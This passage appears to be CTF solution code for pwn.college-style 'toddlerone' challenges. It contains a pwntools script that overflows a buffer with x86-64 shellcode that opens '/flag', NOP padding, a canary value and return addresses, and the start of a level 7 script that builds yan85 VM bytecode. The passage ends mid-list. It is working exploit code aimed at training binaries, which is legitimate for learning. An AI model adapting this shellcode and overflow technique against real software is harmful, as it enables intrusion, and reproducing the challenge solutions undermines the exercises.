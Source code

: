 overflow_size=0x20
p.sendlineafter("Payload size: ",str(overflow_size))

shell1='''
push 0x616c662f
mov BYTE PTR [rsp+4],0x67
mov eax,2
push rsp
pop rdi
xor esi,esi
syscall
'''

payload=b'REPEAT'
payload+=asm(shell1,arch='amd64')
shell1_len=len(payload)
payload+=b'\xe9\x8b\x00\x00\x00'+b'\x90'*(0x20-29-3)
print(shell1_len)

p.sendlineafter("bytes)!\n",payload)

overflow_size=0x40
p.sendlineafter("Payload size: ",str(overflow_size))

payload=b'\x90\x00'
payload+=b'\xe9\x8f\x00\x00\x00'+b'\x90'*(0x18-4-3)+p64(0x9c0cc3e6c5c9191b)+b'\x90'*(0x8)+p64(cc)+p64(0)+p64(start_stack)

p.sendlineafter("bytes)!\n",payload)

p.interactive()

level 6.0


level 7.0
from pwn import *

p=process(['/challenge/toddlerone_level7.0'],setuid=False)

#format:  arg1 op arg2

a_reg=2
b_reg=0x20
c_reg=4

interpret_imm=0x8
interpret_sys=0x40

sys_read_mem=0x8
sys_read_code=0x10
sys_write=0x20

yan85_code=[
    #read_shell
    a_reg,interpret_imm,0,
    b_reg,interpret_imm,0,
    c_reg,interpret_imm,255,
    sys_read_mem,interpret_sys,a_reg,
